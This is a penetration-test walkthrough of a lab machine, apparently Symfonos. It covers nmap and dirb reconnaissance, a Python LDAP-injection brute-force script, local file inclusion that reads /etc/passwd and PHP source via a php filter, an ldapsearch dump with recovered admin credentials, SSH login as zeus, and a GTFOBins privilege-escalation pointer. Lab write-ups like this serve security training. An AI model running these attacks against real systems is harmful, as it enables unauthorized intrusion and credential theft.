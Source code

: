 ## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![5c85eeec9fcbcf370e825d573ebbcd96.png](./_resources/deafa02fa26b4a93b959080a6e9e7c3c.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.128 -oN full_service_enum-sC.txt`
![fac1583f3d1c8e3279936256b3cdb1d6.png](./_resources/34b390e29a164a6d9f89e36b85e7c5fd.png)

## 1.3 Web
![1d07ec80db792f70f1ca01ce5c71cb39.png](./_resources/bff54c526e9f415da0473817d0ed14df.png)

### 1.3.1 Wappalyzer
![e417e2de566f14691ed766389420ca6b.png](./_resources/5ce1e98fbe8043fa835ecfcdcc6ef712.png)

## 1.3.2 Dirb enum web content
`dirb http://192.168.196.128`
![4d40c830929a49cedc6d5dd162fb7ae1.png](./_resources/0a0b1081cd534842beacb5c5693314ea.png)


# 2 Exploitation 
Since we have a login page with php (80) and ldap port (389), becomes deductible that the login is based on ldap authentication.

## 2.1 Ldap injection - burpsuit intruder 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md
![b549598719eae6ffb3f1b5563a768d5c.png](./_resources/63b6957412504f2691fe4123f66fb415.png)
At one point it returns responses of different length.

## 2.1 Ldap injection - automation python script
```
# Script para ldap injection - byth22
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-

import requests
import re

def brute(target, headers):
    f = open("ldapi-payloads.txt", "r")
    for i in f:
        params = (
            ('username', i),
            ('password', 'teste'),
        )
            
        response = requests.get('http://'+target+'/admin.php', headers=headers, params=params, verify=False)

        try:
            re.findall(r'Invalid', response.content)[0]

        except IndexError:
            print ("Payload encontrada: %s" %i)


def main():
    target = '192.168.196.130'

    headers = {
        'Host': target,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Referer': 'http://192.168.196.130/admin.php',
        'Upgrade-Insecure-Requests': '1',
    }
    brute(target, headers)


main()
````

## 2.2 Local file inclusion after login
![ee4356d8b67bedd8fbe989f961e86a1a.png](./_resources/5ae134b2455e48ef937780e99b675901.png)
A normal payload (/etc/passwd) works, and there was an attempt to read admin.php for analyse its code, but it is rendered. We dont need an rendered page, we need read it. For it was used php filter:
![ebc7c3f32e61d368c35bed337b2f09b0.png](./_resources/ac7266981ca346009b6e1f99f807e39c.png)
Ant it works.

Now we can decode and read it:
![3464297aaa1f79da24548da3b2040de7.png](./_resources/2a0c9a6803084a9f90290106b50f93a2.png)

Let’s use these credentials to dump all the information using ldap.
```
ldapsearch -x -LLL -h 192.168.196.128 -D 'cn=admin,dc=symfonos,dc=local' -w qMDdyZh3cT6eeAWD -b 'dc=symfonos,dc=local'
```
![6acd37b2c09c51c28a9df47a04433b43.png](./_resources/0ad781d9c6d3402a998e79935d88a86c.png)

## 2.2.1 SSH using zeus account
zeus:cetkKf4wCuHC9FET
![bd224c6770df272f225fe539ea0ca4ca.png](./_resources/5dc5e9268fd14d818a4f9a0a1029579b.png)


# 3 Post-exploitation
https://gtfobins.github.io/gtfobins/dpkg/

LinEnum.sh returned some good informations:
![a8930b15a4e6fea2c76677d100e8a15d.png](./_resources/e2c3119d4ddc4a09861c59075575c8ac.png)
![ca2b481efa73145d38df2a60fd66df71.png](./_resources/e078831174654845bf64330c71c2d07d.png)
